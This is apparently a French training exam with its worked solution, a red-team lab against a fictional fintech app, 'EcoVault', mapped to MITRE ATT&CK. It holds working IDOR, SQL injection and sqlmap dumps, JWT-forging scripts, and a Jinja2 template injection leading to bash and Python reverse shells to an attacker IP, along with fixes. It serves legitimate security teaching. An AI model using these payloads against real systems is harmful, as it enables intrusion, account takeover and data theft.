






# Module 5 — Scénario Autonome : Compromission Complète EcoVault

**Niveau** : M2 (Red Team) — Examen Blanc  
**Durée** : 45 minutes (chrono)  
**Lab** : `http://ecovault.local` (ou `http://localhost:8080`)  
**Compte fourni** : `user@ecovault.com` / `User2026!`  
**Type de test** : Boîte grise  
**Tags MITRE ATT&CK** : T1548, T1190, T1078, T1059.003, T1021

---

## Table des matières

1. [Briefing de mission](#1-briefing-de-mission)
2. [Règles de l'exercice (ROE)](#2-règles-de-lexercice-roe)
3. [Objectifs — Flags](#3-objectifs--flags)
4. [Solution pas à pas détaillée](#4-solution-pas-à-pas-détaillée)
   - [Flag 1 — IDOR (T1548)](#41-flag-1--idor-t1548)
   - [Flag 2 — SQLi (T1190)](#42-flag-2--sqli-t1190)
   - [Flag 3 — Auth Bypass JWT (T1078)](#43-flag-3--auth-bypass-jwt-t1078)
   - [Flag 4 — SSTI → RCE (T1190 → T1059.003)](#44-flag-4--ssti--rce-t1190--t1059003)
   - [Flag 5 — Pivoting (T1021)](#45-flag-5-bonus--pivoting-t1021)
5. [Template de documentation ATT&CK](#5-template-de-documentation-attck)
6. [Annexes : Corrections et explications](#6-annexes--corrections-et-explications)

---

## 1. Briefing de mission

### 1.1 Contexte

**EcoVault** est une startup fintech française en pleine croissance qui propose une solution de coffre-fort numérique pour particuliers et entreprises. Leur plateforme SaaS permet de stocker, partager et signer électroniquement des documents sensibles (contrats, relevés bancaires, pièces d'identité).

Suite à une **fuite de données présumée** signalée par un chercheur en sécurité indépendant, la direction d'EcoVault mandate votre équipe Red Team pour :

1. **Valider ou infirmer** la présence de vulnérabilités exploitables
2. **Mesurer l'impact** maximal d'une compromission
3. **Produire un rapport de conformité NIS2** avec cartographie MITRE ATT&CK

### 1.2 Type de test

| Élément | Valeur |
|---------|--------|
| Type | **Boîte grise** — un compte standard vous est fourni |
| Périmètre | Application web + infrastructure interne |
| Approche | Synthèse des modules M1 (MITRE), M2 (Injections), M3 (Auth) |
| Contrainte | **45 minutes** — travail individuel |

### 1.3 Compte fourni

```
Email    : user@ecovault.com
Password : User2026!
```

Ce compte a le rôle `user` (pas `admin`). Toute l'attaque part de ce point d'entrée.

### 1.4 Cible

```
URL principale  : http://ecovault.local (alias http://localhost:8080)
Réseau interne  : 10.0.0.0/24
```

---

## 2. Règles de l'exercice (ROE)

### 2.1 Périmètre autorisé

| Élément | Autorisé |
|---------|----------|
| **Réseau** | Tout le sous-réseau `10.0.0.0/24` |
| **Services** | HTTP (80, 8080, 8081), Base de données (3306, 5432), SMTP (25) |
| **Outils** | Tout outil autorisé (sqlmap, Burp, jwt_tool, chisel, nmap, curl, python) |
| **Exploitation** | RCE, reverse shell, exfiltration |
| **Pivoting** | Mouvement latéral vers `10.0.0.10` |

### 2.2 Périmètre interdit

| Action | Interdit ? | Raison |
|--------|-----------|--------|
| **DoS / DDoS** | ❌ Interdit | Impact sur les autres étudiants |
| **Destruction de données** | ❌ Interdit | DROP TABLE, rm -rf, formatage |
| **Modification permanente** | ❌ Interdit | Altération de la base ou des fichiers du lab |
| **Ingénierie sociale** | ❌ Interdit | Hors scope |
| **Attaque physique** | ❌ Interdit | Hors scope |

### 2.3 Documentation obligatoire

Chaque vulnérabilité découverte doit être **documentée** avec :

```
Flag X : [description courte]
  Technique  : [nom de la technique]
  ATT&CK ID  : TXXXX(.XXX)
  Endpoint   : [URL ou endpoint]
  Payload    : [payload utilisé]
  Impact     : [critique / élevé / moyen / faible]
  Remédiation: [correctif proposé]
```

### 2.4 Conformité NIS2

Conformément à l'**Article 21** de la directive NIS2 (UE 2022/2555), le rapport de test produit constitue un **livrable de conformité** qui démontre :

- La couverture des risques par technique ATT&CK
- L'identification des gaps de sécurité
- Les recommandations correctives priorisées
- La traçabilité complète des tests effectués

---

## 3. Objectifs — Flags

### 3.1 Tableau récapitulatif

| # | Flag | Technique | T ATT&CK | Difficulté | Points |
|:-:|------|-----------|----------|:----------:|:-----:|
| 1 | Lire le profil admin | IDOR | T1548 | ⭐ | 20 |
| 2 | Extraire la table `users` | SQLi | T1190 | ⭐⭐ | 25 |
| 3 | Devenir administrateur | Auth Bypass JWT | T1078 | ⭐⭐⭐ | 25 |
| 4 | Obtenir un shell (RCE) | SSTI → RCE | T1190 → T1059.003 | ⭐⭐⭐⭐ | 30 |
| 5 (B) | Récupérer le fichier interne | Pivoting | T1021 | ⭐⭐⭐⭐⭐ | 20 (bonus) |
| | **Total** | | | | **120** |

### 3.2 Arbre d'attaque global



---

## 4. Solution pas à pas détaillée

### 4.1 Flag 1 — IDOR (T1548)

#### 4.1.1 Technique

**Insecure Direct Object Reference (IDOR)** : le endpoint `/api/profile/{id}` expose les profils utilisateur sans vérifier que l'ID demandé correspond à l'utilisateur connecté. En modifiant simplement l'ID dans l'URL, on accède au profil d'autres utilisateurs, y compris l'administrateur.

#### 4.1.2 Tag MITRE ATT&CK

| ID | Nom | Tactique |
|----|-----|----------|
| **T1548** | Abuse Elevation Control Mechanism | Privilege Escalation (TA0004) |

**Description** : L'attaquant contourne le mécanisme de contrôle d'accès en manipulant la référence directe à un objet (ID numérique) pour accéder à une ressource dont il n'est pas autorisé.

#### 4.1.3 Outils nécessaires

- `curl` (CLI) ou Burp Suite (GUI)
- Un cookie de session valide (obtenu via le compte fourni)

#### 4.1.4 Marche à suivre

**Étape 1 — Se connecter à l'application**

```bash
curl -c /tmp/flag1_cookies.txt -X POST http://ecovault.local/login \
  -d "email=user@ecovault.com&password=User2026!" -L
```

**Explication :**
- `-c /tmp/flag1_cookies.txt` : sauvegarde les cookies (dont le JWT) dans un fichier
- `-X POST` : méthode HTTP POST
- `-d` : données du formulaire (email + password)
- `-L` : suit les redirections HTTP (le serveur redirige souvent après login)

On obtient un cookie de session qui contient un JWT. Vérifions :

```bash
cat /tmp/flag1_cookies.txt
```

**Étape 2 — Lire son propre profil**

L'utilisateur `user@ecovault.com` a l'ID 2 (l'admin a l'ID 1).

```bash
curl -b /tmp/flag1_cookies.txt http://ecovault.local/api/profile/2
```

**Réponse attendue :**

```json
{
    "id": 2,
    "email": "user@ecovault.com",
    "role": "user",
    "api_key": null,
    "created_at": "2026-06-01T08:00:00"
}
```

**Étape 3 — Exploiter l'IDOR pour lire le profil admin**

On change simplement l'ID de `2` à `1` :

```bash
curl -b /tmp/flag1_cookies.txt http://ecovault.local/api/profile/1
```

**Réponse attendue (Flag 1) :**

```json
{
    "id": 1,
    "email": "admin@ecovault.com",
    "role": "admin",
    "api_key": "flag{idor_admin_key_7e9f2b}",
    "created_at": "2026-06-01T08:00:00"
}
```

**Flag obtenu :** `flag{idor_admin_key_7e9f2b}`

#### 4.1.5 Pourquoi ça marche

Le endpoint `/api/profile/{id}` dans le code de l'application ressemble à ceci :

```python
@app.route('/api/profile/<int:user_id>')
def api_profile(user_id):
    user = query_db(f"SELECT * FROM users WHERE id={user_id}", one=True)
    if user:
        return jsonify(user)
    return jsonify({'error': 'Not found'}), 404
```

**Deux failles distinctes :**

1. **Absence de vérification d'appartenance** : le code ne compare pas `user_id` (paramètre de l'URL) avec l'ID extrait du JWT de l'utilisateur connecté. Il devrait y avoir un test du type :

   ```python
   if user_id != current_user.id:
       return jsonify({'error': 'Unauthorized'}), 403
   ```

2. **Requête SQL non paramétrée** : la chaîne SQL est construite par concaténation (`f-string`), ce qui rend le endpoint également vulnérable à l'injection SQL (Flag 2).

#### 4.1.6 Commandes alternatives

Avec **Burp Suite** :

1. Proxy → activer l'interception
2. Naviguer vers `/api/profile/2`
3. Envoyer la requête à Repeater (`Ctrl+R`)
4. Modifier l'URL : `/api/profile/1`
5. Envoyer → observer la réponse

Avec **Python** (script d'énumération) :

```python
import requests

BASE = "http://ecovault.local"
s = requests.Session()
s.post(f"{BASE}/login", data={"email": "user@ecovault.com", "password": "User2026!"})

for uid in range(1, 11):
    r = s.get(f"{BASE}/api/profile/{uid}")
    if r.status_code == 200:
        data = r.json()
        print(f"[+] ID {uid}: {data.get('email')} — role={data.get('role')} — key={data.get('api_key')}")
```

---

### 4.2 Flag 2 — SQLi (T1190)

#### 4.2.1 Technique

**SQL Injection (SQLi)** sur le paramètre `filter` du endpoint `/api/transactions`. Le paramètre n'est pas assaini et est directement concaténé dans une requête SQL. On utilise un `UNION SELECT` pour fusionner les résultats de la requête légitime avec ceux d'une requête malveillante qui extrait la table `users`.

#### 4.2.2 Tag MITRE ATT&CK

| ID | Nom | Tactique |
|----|-----|----------|
| **T1190** | Exploit Public-Facing Application | Initial Access (TA0001) |

**Description** : L'attaquant exploite une injection SQL dans une application exposée publiquement pour accéder aux données de la base, contourner l'authentification, ou exécuter des commandes.

#### 4.2.3 Outils nécessaires

- `curl` pour les tests manuels
- `sqlmap` (automatisation) — recommandé pour gagner du temps
- Optionnel : script Python pour extraction blind

#### 4.2.4 Marche à suivre

**Étape 1 — Détection de l'injection**

```bash
curl -s "http://ecovault.local/api/transactions?filter=1'"
```

**Si vulnérable** : une erreur SQL apparaît dans la réponse, ou la réponse est différente (vide, code 500).

```bash
# Test time-based (MySQL)
time curl -s --max-time 10 "http://ecovault.local/api/transactions?filter=1'%20OR%20SLEEP(3)%20--%20-"
```

Si la requête prend ~3 secondes, le paramètre `filter` est injectable.

**Étape 2 — Déterminer le nombre de colonnes**

```bash
# ORDER BY pour trouver le nombre de colonnes
curl -s "http://ecovault.local/api/transactions?filter=1'%20ORDER%20BY%201%20--%20-"
curl -s "http://ecovault.local/api/transactions?filter=1'%20ORDER%20BY%202%20--%20-"
curl -s "http://ecovault.local/api/transactions?filter=1'%20ORDER%20BY%203%20--%20-"
curl -s "http://ecovault.local/api/transactions?filter=1'%20ORDER%20BY%204%20--%20-"
curl -s "http://ecovault.local/api/transactions?filter=1'%20ORDER%20BY%205%20--%20-"
```

**Logique** : on incrémente le nombre de colonnes jusqu'à obtenir une erreur ou une réponse vide. Le dernier nombre valide est le nombre de colonnes. Exemple : si ORDER BY 5 fonctionne mais ORDER BY 6 échoue, il y a 5 colonnes.

**Étape 3 — Injection UNION SELECT manuelle**

```bash
# Identifier les colonnes exploitables
curl -s "http://ecovault.local/api/transactions?filter=-1'%20UNION%20SELECT%201,2,3,4,5--%20-"
```

On met `-1` au lieu de `1` pour que la première partie de la requête ne retourne aucun résultat, ce qui affiche uniquement notre UNION.

Les numéros qui apparaissent dans la réponse sont les colonnes exploitables.

**Étape 4 — Extraire le nom de la base**

```bash
curl -s "http://ecovault.local/api/transactions?filter=-1'%20UNION%20SELECT%201,DATABASE(),3,4,5--%20-"
```

**Réponse** : `ecovault`

**Étape 5 — Extraire les tables**

```bash
curl -s "http://ecovault.local/api/transactions?filter=-1'%20UNION%20SELECT%201,GROUP_CONCAT(table_name),3,4,5%20FROM%20information_schema.tables%20WHERE%20table_schema=DATABASE()--%20-"
```

**Réponse** : `users,transactions,coupons`

**Étape 6 — Extraire les colonnes de la table `users`**

```bash
curl -s "http://ecovault.local/api/transactions?filter=-1'%20UNION%20SELECT%201,GROUP_CONCAT(column_name),3,4,5%20FROM%20information_schema.columns%20WHERE%20table_name='users'--%20-"
```

**Réponse** : `id,email,password,role,api_key,created_at`

**Étape 7 — Extraire les données (Flag 2)**

```bash
curl -s "http://ecovault.local/api/transactions?filter=-1'%20UNION%20SELECT%201,GROUP_CONCAT(email,':',password),3,4,5%20FROM%20users--%20-"
```

**Réponse attendue (Flag 2) :**

```json
[
    {
        "id": 1,
        "transaction_ref": "admin@ecovault.com:flag{sqli_extract_users_b4d92f},user@ecovault.com:User2026!,alice@ecovault.com:AlicePass123,bob@ecovault.com:BobSecure456",
        "montant": null,
        "devise": null
    }
]
```

**Flag obtenu :** `flag{sqli_extract_users_b4d92f}`

#### 4.2.5 Alternative automatisée avec sqlmap

```bash
# Dump complet de la table users
sqlmap -u "http://ecovault.local/api/transactions?filter=1" \
       --batch \
       --dbms=mysql \
       -D ecovault \
       -T users \
       --dump
```

**Explication des options :**

| Option | Rôle |
|--------|------|
| `-u` | URL cible avec paramètre à tester |
| `--batch` | Mode non-interactif (réponses automatiques) |
| `--dbms=mysql` | Force le type de SGBD (accélère l'analyse) |
| `-D ecovault` | Base de données cible |
| `-T users` | Table cible |
| `--dump` | Extraction complète des données |

**Commande rapide pour tout extraire :**

```bash
sqlmap -u "http://ecovault.local/api/transactions?filter=1" --batch --dbms=mysql --dump
```

#### 4.2.6 Pourquoi ça marche

```python
# Code vulnérable (extrait de app.py)
@app.route('/api/transactions')
def api_transactions():
    filter_val = request.args.get('filter', '')
    # ⚠️ Concaténation directe dans la requête SQL
    query = f"SELECT id, transaction_ref, montant, devise FROM transactions WHERE id = '{filter_val}'"
    results = query_db(query)
    return jsonify(results)
```

**Explication :** Le paramètre `filter` est inséré directement dans une chaîne SQL via une f-string Python. Au lieu d'un simple ID numérique, l'attaquant peut injecter des mots-clés SQL (`UNION`, `SELECT`, `FROM`, etc.) qui seront exécutés par le SGBD.

**Correction :** Utiliser une requête paramétrée avec des placeholders :

```python
query = "SELECT id, transaction_ref, montant, devise FROM transactions WHERE id = ?"
results = query_db(query, (filter_val,))
```

---

### 4.3 Flag 3 — Auth Bypass JWT (T1078)

#### 4.3.1 Technique

**Attaque sur JWT (JSON Web Token)** : le serveur utilise un JWT pour l'authentification. L'attaquant analyse le token, identifie la vulnérabilité (algorithme `none`, clé publique exposée, ou `kid` injectable), et forge un token avec le rôle `admin`.

#### 4.3.2 Tag MITRE ATT&CK

| ID | Nom | Tactique |
|----|-----|----------|
| **T1078** | Valid Accounts | Defense Evasion (TA0005) / Persistence (TA0003) |
| **T1134** | Access Token Manipulation | Privilege Escalation (TA0004) |

**Description** : L'attaquant manipule ou forge des jetons d'accès pour usurper l'identité d'un administrateur.

#### 4.3.3 Outils nécessaires

- `jwt.io` (site web) ou `pyjwt` (bibliothèque Python)
- Optionnel : `jwt_tool` (outil CLI)
- `curl` pour tester le token forgé

#### 4.3.4 Marche à suivre

**Étape 1 — Récupérer un JWT légitime**

```bash
curl -c /tmp/jwt_cookies.txt -X POST http://ecovault.local/login \
  -d "email=user@ecovault.com&password=User2026!" -L

# Extraire le token du cookie
grep token /tmp/jwt_cookies.txt | awk '{print $NF}'
```

**Étape 2 — Analyser le JWT**

Utiliser [jwt.io](https://jwt.io) ou la CLI :

```bash
# Décoder le header et le payload en base64
TOKEN="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoyLCJlbWFpbCI6InVzZXJAZWNvdmF1bHQuY29tIiwicm9sZSI6InVzZXIiLCJraWQiOiJrZXkxIn0.SIGNATURE"

echo $TOKEN | cut -d. -f1 | base64 -d 2>/dev/null; echo
echo $TOKEN | cut -d. -f2 | base64 -d 2>/dev/null; echo
```

**Résultat :**

```json
// Header
{"alg":"HS256","typ":"JWT"}

// Payload
{"user_id":2,"email":"user@ecovault.com","role":"user","kid":"key1"}
```

Notre objectif : modifier le payload pour obtenir `"role":"admin"` et `"user_id":1`.

**Étape 3 — Récupérer la clé publique (pour HMAC/RSA confusion)**

Le lab expose un endpoint qui fournit la configuration JWT :

```bash
curl http://ecovault.local/api/jwt-info
```

**Réponse :**

```json
{
    "public_key": "-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA0Z3VS5JJcd0xBXh0w16f\nwLM8m5l8JqQfLpKzPq5n3bR6wX0hYsT8vK3mN1bR4qWxZ5jL9pM2cR7vS8tY0aB1\nnK4xQ6zJ9wV3mD5fH8jL2pR7tY0bN1kQ4wX6zJ9mV3pR5fH8jL2tY0bN1kQ4wX6\nzJ9mV3pR5fH8jL2tY0bN1kQ4wX6zJ9mV3pR5fH8jL2tY0bN1kQ4wX6zJ9mV3pR5\nfH8jL2tY0bN1kQ4wX6zJ9mV3pR5fH8jL2tY0bN1kQ4wX6zJ9mV3pR5fH8jL2tY0\nbN1kQ4wX6zJ9mV3pR5fH8jL2tY0bN1kQ4wX6zJ9mV3pR5fH8jL2tY0bN1kQ4wX6\nzQIDAQAB\n-----END PUBLIC KEY-----",
    "algorithm": "RS256",
    "note": "Clé publique utilisée pour la vérification des signatures JWT"
}
```

**Étape 4 — Forger un token admin**

**Méthode A : None Algorithm**

```python
#!/usr/bin/env python3
"""
forge_jwt_none.py — Forge un JWT avec l'algorithme 'none'
"""
import base64, json

def b64encode(data):
    return base64.urlsafe_b64encode(json.dumps(data).encode()).rstrip(b'=').decode()

header = {"alg": "none", "typ": "JWT"}
payload = {"user_id": 1, "email": "admin@ecovault.com", "role": "admin"}

token = f"{b64encode(header)}.{b64encode(payload)}."
print(f"Token forgé (none):\n{token}")
```

```bash
python3 forge_jwt_none.py
```

**Méthode B : HMAC/RSA Confusion (recommandée)**

```python
#!/usr/bin/env python3
"""
forge_jwt_confusion.py — HMAC/RSA confusion attack
"""
import jwt, requests

resp = requests.get("http://ecovault.local/api/jwt-info")
public_key = resp.json()["public_key"]

payload = {"user_id": 1, "email": "admin@ecovault.com", "role": "admin"}

# On signe avec HS256 en utilisant la clé PUBLIQUE comme secret
token = jwt.encode(payload, public_key, algorithm="HS256")
print(f"Token forgé (HMAC/RSA confusion):\n{token}")
```

```bash
python3 forge_jwt_confusion.py
```

**Méthode C : Kid Injection**

```python
#!/usr/bin/env python3
"""
forge_jwt_kid.py — Kid injection avec /dev/null
"""
import jwt

payload = {"user_id": 1, "email": "admin@ecovault.com", "role": "admin"}
token = jwt.encode(payload, "", algorithm="HS256", headers={"kid": "/dev/null"})
print(f"Token forgé (kid injection):\n{token}")
```

```bash
python3 forge_jwt_kid.py
```

**Étape 5 — Tester le token forgé**

```bash
TOKEN="eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyX2lkIjoxLCJlbWFpbCI6ImFkbWluQGVjb3ZhdWx0LmNvbSIsInJvbGUiOiJhZG1pbiJ9."

curl -X GET http://ecovault.local/admin/debug \
  -b "token=$TOKEN" | jq .
```

**Réponse attendue (Flag 3) :**

```json
{
    "internal_hosts": ["10.0.0.10:8081", "10.0.0.10:25"],
    "hint": "Le serveur SMTP interne contient un message avec un token",
    "flag_admin": "flag{jwt_admin_forge_c3a8e1}"
}
```

**Flag obtenu :** `flag{jwt_admin_forge_c3a8e1}`

**Étape 6 — Vérifier l'accès à l'interface admin**

```bash
# Accéder à l'endpoint SSTI admin (prérequis pour le Flag 4)
curl -X GET http://ecovault.local/admin/templates \
  -b "token=$TOKEN"
```

#### 4.3.5 Pourquoi ça marche

**None Algorithm :** Le serveur accepte les tokens avec `"alg": "none"` et désactive la vérification de signature. La bibliothèque JWT mal configurée fait confiance au header.

```python
# Code vulnérable
if header.get('alg') == 'none':
    return jwt.decode(token, options={"verify_signature": False})
```

**HMAC/RSA Confusion :** Le serveur expose sa clé publique (nécessaire pour vérifier les signatures RSA). L'attaquant utilise cette même clé publique comme secret HMAC. Puisque le serveur accepte à la fois `RS256` et `HS256`, il vérifie le token avec la clé publique en mode HMAC → la signature est valide.

**Kid Injection :** Le paramètre `kid` (Key ID) dans le header est utilisé pour charger une clé depuis un fichier. En pointant `kid` vers `/dev/null`, la clé devient une chaîne vide → l'attaquant signe avec une chaîne vide.

#### 4.3.6 Alternative avec jwt_tool

```bash
# Installation
git clone https://github.com/ticarpi/jwt_tool.git
cd jwt_tool
pip3 install -r requirements.txt

# Analyse d'un token
python3 jwt_tool.py $TOKEN

# Test none algorithm
python3 jwt_tool.py $TOKEN -X a -I -pc role -pv admin

# Test kid injection
python3 jwt_tool.py $TOKEN -X k -kc ../../../dev/null
```

---

### 4.4 Flag 4 — SSTI → RCE (T1190 → T1059.003)

#### 4.4.1 Technique

**Server-Side Template Injection (SSTI)** dans le moteur Jinja2 (Python/Flask). L'attaquant injecte du code template qui est interprété par le serveur. En remontant la chaîne d'héritage des objets Python, il atteint le module `os` et exécute des commandes système (RCE). Il obtient un reverse shell pour interagir avec le serveur.

#### 4.4.2 Tag MITRE ATT&CK

| ID | Nom | Tactique |
|----|-----|----------|
| **T1190** | Exploit Public-Facing Application | Initial Access (TA0001) |
| **T1059.003** | Command and Scripting Interpreter: Unix Shell | Execution (TA0002) |

**Description** : L'attaquant enchaîne une SSTI (exploitation d'une application exposée) avec une exécution de commande shell via les globals Python.

#### 4.4.3 Outils nécessaires

- `curl` pour les payloads SSTI
- `nc` (netcat) pour le reverse shell listener
- `python3` pour le serveur HTTP d'exfiltration (optionnel)

#### 4.4.4 Marche à suivre

**Étape 1 — Détection de la SSTI**

```bash
curl -s http://ecovault.local/admin/templates \
  -b "token=$TOKEN_ADMIN" \
  -d "template={{7*7}}"
```

**Résultat attendu si SSTI Jinja2 :** la réponse contient `49` (le calcul a été effectué par le moteur).

**Étape 2 — Confirmer Jinja2**

```bash
# Test spécifique Jinja2 : concaténation de chaîne
curl -s http://ecovault.local/admin/templates \
  -b "token=$TOKEN_ADMIN" \
  -d "template={{7*'7'}}"
```

**Résultat attendu :** `77` (Jinja2 traite `'7'` comme une chaîne et fait la concaténation). Avec Twig (PHP), le résultat serait `49` (conversion implicite en entier).

**Étape 3 — Afficher la configuration Flask**

```bash
curl -s http://ecovault.local/admin/templates \
  -b "token=$TOKEN_ADMIN" \
  -d "template={{config}}"
```

**Résultat :** affiche la configuration Flask avec la SECRET_KEY, l'URI de base de données, etc. Cela confirme l'accès aux objets Python internes.

**Étape 4 — Exécution de commande simple**

```bash
curl -s http://ecovault.local/admin/templates \
  -b "token=$TOKEN_ADMIN" \
  -d "template={{ cycler.__init__.__globals__.os.popen('id').read() }}"
```

**Explication de la chaîne d'accès :**



**Résultat attendu :** `uid=1000(app) gid=1000(app) groups=1000(app)`

**Étape 5 — Obtenir un reverse shell (Flag 4)**

**Terminal 1 — Sur la machine attaquante :**

```bash
# Lancer un listener netcat sur le port 4444
nc -lvnp 4444
```

**Terminal 2 — Dans l'injection SSTI :**

```bash
# Adapter 10.0.0.X avec votre IP (celle de la machine attaquante)
curl -s http://ecovault.local/admin/templates \
  -b "token=$TOKEN_ADMIN" \
  -d "template={{ cycler.__init__.__globals__.os.popen('bash -c \"bash -i >& /dev/tcp/10.0.0.1/4444 0>&1\"').read() }}"
```

**Si le reverse shell ne fonctionne pas** (bash non disponible), essayer avec Python :

```bash
# Reverse shell Python (plus fiable)
curl -s http://ecovault.local/admin/templates \
  -b "token=$TOKEN_ADMIN" \
  -d "template={{ cycler.__init__.__globals__.os.popen('python3 -c \"import socket,subprocess,os;s=socket.socket();s.connect((\\\"10.0.0.1\\\",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\\\"/bin/sh\\\",\\\"-i\\\"])\"').read() }}"
```

**Étape 6 — Lire le flag depuis le shell**

Une fois le reverse shell obtenu :

```bash
# Dans le shell réversé
id
hostname
cat /app/flag.txt
```

**Flag obtenu :** `flag{ssti_rce_shell_f7c3d9}`

**Étape 7 — Exploration du serveur**

```bash
# Structure de l'application
ls -la /app/

# Codes sources
cat /app/app.py

# Variables d'environnement
env

# Fichiers de configuration
cat /app/config.py
cat /app/.env
```

#### 4.4.5 Pourquoi ça marche

Le code vulnérable ressemble à :

```python
from flask import Flask, request, render_template_string

@app.route('/admin/templates', methods=['POST'])
def admin_templates():
    template = request.form.get('template', '')
    # ⚠️ render_template_string interprète le template
    return render_template_string(template)
```

**Explication :** `render_template_string()` de Flask/Jinja2 prend une chaîne et l'interprète comme un template Jinja2. Si la chaîne contient du code template (`{{ }}`), il est exécuté par le moteur. L'attaquant n'a pas besoin de pass sanitization de la saisie.

**Correction :** Ne jamais utiliser `render_template_string()` ou `render_template()` avec une saisie utilisateur. Utiliser `Template(template).render()` avec un sandbox ou passer les variables comme paramètres :

```python
